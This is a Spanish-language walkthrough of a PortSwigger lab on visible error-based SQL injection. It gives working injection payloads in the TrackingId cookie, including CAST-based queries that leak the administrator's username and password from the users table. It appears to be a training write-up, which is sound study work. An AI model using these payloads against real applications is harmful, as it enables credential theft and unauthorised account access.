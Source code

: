 ```yaml
---
title: "18 Visible error-based SQL injection"
collection: publications
category: portswigger
permalink: publications/SQLi/18_Visible error-based SQL injection
excerpt: 'Este laboratorio contiene una vulnerabilidad de inyección SQL. La aplicación utiliza una cookie de seguimiento para análisis y realiza una consulta SQL que contiene el valor de la cookie enviada. No se devuelven los resultados de la consulta SQL.'
date: 2024-12-02
#venue: 'Journal 1'
#slidesurl: 'http://academicpages.github.io/files/slides1.pdf'
#paperurl: 'http://academicpages.github.io/files/paper1.pdf'
citation: 'Visible error-based SQL injection'
---
```


![logo]({{site.url}}/images/SQLi/sqli-18/logo.png)

## Descripción del laboratorio

![Descripción]({{site.url}}/images/SQLi/sqli-18/descripcion.png)

## Objetivo del laboratorio

Para resolver el laboratorio, encuentra la forma de filtrar la contraseña del usuario administrador y, a continuación, accede a su cuenta.

## Buscamos el vector de ataque

Realizamos busqueda de URL's que realicen consulta a la BD para ver si es una posible realizar un ataque de SQLi.

![Vector]({{site.url}}/images/SQLi/sqli-18/vector.png)

## Probamos que el TrackingId es vulnerable

```sql
'--
```

![Vulnerable]({{site.url}}/images/SQLi/sqli-18/vulnerable.png)

## Obtenemos cantidad de columnas

```sql
' ORDER BY 1--
```

![Columnas]({{site.url}}/images/SQLi/sqli-18/columnas.png)

## Miramos que sea de tipo String

```sql
' UNION SELECT 'A'--
```

![String]({{site.url}}/images/SQLi/sqli-18/string.png)

## Obtener el primer usuario de la tabla users

```sql
' AND 1=CAST((SELECT username FROM users LIMIT 1) as int)--
```

![Usuario]({{site.url}}/images/SQLi/sqli-18/primer usuario.png)

## Obtener el password del primer usuario

```sql
' AND 1=CAST((SELECT password FROM users LIMIT 1) as int)--
```

![Password]({{site.url}}/images/SQLi/sqli-18/password.png)

## Login

![Login]({{site.url}}/images/SQLi/sqli-18/login.png)

## Resuelto

![Resuelto]({{site.url}}/images/SQLi/sqli-18/resuelto.png)
